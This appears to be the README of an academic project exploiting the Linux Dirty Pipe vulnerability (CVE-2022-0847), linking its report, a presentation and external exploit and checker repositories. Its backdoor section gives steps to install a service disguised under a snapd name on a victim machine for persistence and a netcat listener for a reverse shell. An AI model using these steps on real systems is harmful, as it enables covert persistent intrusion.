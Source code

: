 # Detailed information about this project can be found in our final project report and presentation (Dirty Pipe Cola - Final report.pdf / Dirty Pipe Cola - Project Presentation.pdf)
https://github.com/stefanoleggio/dirty-pipe-cola/blob/main/Dirty%20Pipe%20Cola%20-%20Final%20report.pdf 
https://github.com/stefanoleggio/dirty-pipe-cola/blob/main/Dirty%20Pipe%20Cola%20-%20Project%20Presentation.pdf

# Reference to CVE-2022-0847-DirtyPipe-Exploits
- https://github.com/febinrev/dirtypipez-exploit
- https://github.com/basharkey/CVE-2022-0847-dirty-pipe-checker

# Backdoor
- On the victim's machine, once priviledge has been achieved, place the snapd.loading.service in /etc/systemd/system folder. And run `$ sudo systemctl enable snapd.loading.service --now`. Note that the IP of the attacker device/server needs to be changed.

- On attacker machine, execute whenever you want to connect: `$ nc -nvlp 9001`


